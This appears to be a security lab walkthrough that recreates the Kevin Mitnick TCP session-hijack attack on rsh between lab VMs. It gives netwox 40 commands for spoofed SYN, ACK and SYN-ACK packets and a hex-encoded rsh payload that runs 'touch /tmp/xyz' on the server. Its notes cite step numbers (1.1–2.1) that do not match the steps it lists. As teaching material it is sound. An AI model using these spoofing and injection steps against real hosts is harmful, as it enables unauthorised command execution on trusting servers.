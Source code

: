 ## The Kevin Mitnick Attack 

### Requirement: In this lab, we will demonstrate the Kevin Mitnick attack - a special case of the TCP session hijack attack. Instead of hijacking an existing TCP connection between victims A and B, the Mitnick attack creates a TCP connection between A and B first on their behalf, and then naturally hijacks the connection. Specifically, Kevin Mitnick created and hijacked rsh connections. In this lab, the attacker's goal is to create a file /tmp/xyz on the victim server machine.

### Setup: 3 Linux VMs. VM1 as the victim client; VM2 as the victim server; VM3 as the attacker. The 3 VMs reside in the same network - in the original Kevin Mitnick attack, the attacker's machine was not in the same network. Back then TCP sequence numbers were easily predictable, today it is not. To simulate the attack and simplify our task, we assume we still know the sequence numbers - we will, in the lab, obtain the sequence numbers from wireshark. We will then use "netwox 40" to perform packet spoofing. In the following document, we assume the victim client's IP is 10.0.2.15, and the victim server's IP is 10.0.2.10.

Background knowledge: In rsh, two TCP connections are needed. One for normal communication, the other for sending error messages. In the first connection, client port must be 1023, server port must be 514. In the second connection, server port must be 1023, client port can be anything - in this lab, we will choose 9090.

### Preparation steps: 

step 1. installing rsh on client, server, and the attacker's machine. Run the following two commands on all 3 VMs:

# sudo apt-get install rsh-redone-client
# sudo apt-get install rsh-redone-server

step 2. configure rsh on the victim server machine.

$ touch .rhosts
$ echo [victim client’s IP address] > .rhosts (replace "victim client's IP address" with the actual IP address)
$ chmod 644 .rhosts

If the above configuration is correct, you should be able to run the follow command on the victim client machine, and it will show you current date information.

# rsh [victim server’s IP] date

step 3. simulating the syn flooding attack.

3.1: on the victim server, run:

# sudo arp -s [victim client’s IP] [victim client’s MAC]

This step is needed so that the server remembers the MAC address of the client, which is needed for the server to send packets to the client.

3.2: shutdown the victim client VM - we do so to simulate the situation when the client is under serious syn flooding attack and can't respond.

step 4. turn on wireshark on the attacker's VM and start capturing. also, sanity check - make sure there is no such a file called /tmp/xyz on the server side - as our ultimate goal in this lab is to create such a file.

### Attacking steps:

step 5. create the first TCP connection. 

step 5.1: On the attacker's VM, send a spoofed SYN packet to the victim server.

# sudo netwox 40 --tcp-syn --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514

step 5.2: right after the above command, netwox would show us the sequence number of this SYN packet, let's say it's x. Then in wireshark, identify the SYN-ACK packet coming from the victim server to the victim client and find out its sequence number, let's say it's y. Now we send the ACK packet to complete the TCP 3-way handshake.

# sudo netwox 40 --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514 --tcp-acknum y+1 --tcp-seqnum x+1

step 5.3: send one ACK packet to the server. This packet carries the command we want to run:

# sudo netwox 40 --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514 --tcp-acknum y+1 --tcp-seqnum x+1 --tcp-data "393039300073656564007365656400746f756368202f746d702f78797a00" 

note: step 5.2 and step 5.3 are the same command, except that --tcp-data part.

step 6. create the second TCP connection. After the above ACK packet, the server would automatically sends a SYN packet to the client so as to establish the 2nd TCP connection. We just need to respond a fake SYN-ACK packet. Let's say the sequence number of this SYN packet is z, then in our SYN-ACK packet, the ack num needs to be z+1, the sequence number can be anything.

step 6.1: 

# sudo netwox 40 --tcp-syn --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 9090 --tcp-dst 1023 --tcp-acknum z+1

Verification steps:

step 7. on the victim's server machine, see if /tmp/xyz is created.

==============

Note: In netwox 40, --tcp-data specifies the data you want to transfer, and in our case, we want to transfer an rsh command "touch /tmp/xyz". In rsh, its data's structure is:

[port number]\x00[uid_client]\x00[uid_server]\x00[your command]\x00

thus, in order to inject a command "touch /tmp/xyz", the data we should inject is "9090\x00seed\x00seed\x00touch /tmp/xyz\x00", and then we need to convert it into hex numbers:

$ python
>>> "9090\x00seed\x00seed\x00touch /tmp/xyz\x00".encode("hex")
'393039300073656564007365656400746f756368202f746d702f78797a00'

Note 2: In the attacking steps, right after step 1.1, we need to run step 1.2 as soon as possible, otherwise the server will RESET the 1st TCP connection; similarly, right after step 1.3, we need to run step 2.1 as soon as possible, otherwise the server will RESET the 2nd TCP connection. Therefore, writing a sniffing-and-spoofing script would be the better way to perform this attack.

Alternatively, we can run these two commands on the server so that it does not RESET that fast.

# sudo sysctl -w net.ipv4.tcp_syn_retries=20
# sudo sysctl -w net.ipv4.tcp_synack_retries=20
